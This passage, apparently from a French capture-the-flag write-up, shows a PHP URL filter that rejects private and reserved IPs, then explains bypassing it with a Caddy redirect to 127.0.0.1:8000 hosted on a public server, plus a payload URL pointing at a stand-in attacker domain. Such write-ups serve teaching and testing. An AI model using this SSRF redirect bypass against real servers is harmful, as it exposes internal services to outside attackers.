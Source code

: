 ```php

    if (filter_var($input, FILTER_VALIDATE_URL)) {
        $url = parse_url($input);
        $ip = gethostbyname($url['host']);
        if (filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
            if (isset($url['port'])) {
                return $url['scheme'] . "://" . $ip . ":" . $url['port'] . $url['path'];
            } else {
                return $url['scheme'] . "://" . $ip . $url['path'];
            }
        }
    }

    return "poems/invalid.txt";
```

Le wrapper `http://` est utilisable au travers de `fopen()`, ce qui permet normalement d'aller requête le serveur HTTP sur le port 8000 listant les fichiers à la racine, cependant un filtre vérifie que l'IP ou domaine renseignés ne pointent pas vers une adresse ip privée ou réservée (`FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE`). 

Il est possible de contourner cette restriction en redirigeant `fopen()` à l'aide d'un code HTTP 302. Sur un serveur accessible publiquement via Internet, on peut mettre en place un reverse proxy (ici Caddy) qui va rediriger l'utilisateur vers 127.0.0.1 pour toute requête : 

```
:80  {
    redir http://127.0.0.1:8000{uri}
}
```

Avec le payload suivant : `http://localhost:8005/private.php?poem=http://attackant.tld/`, il est possible de rediriger fopen() sur le serveur HTTP interne : 
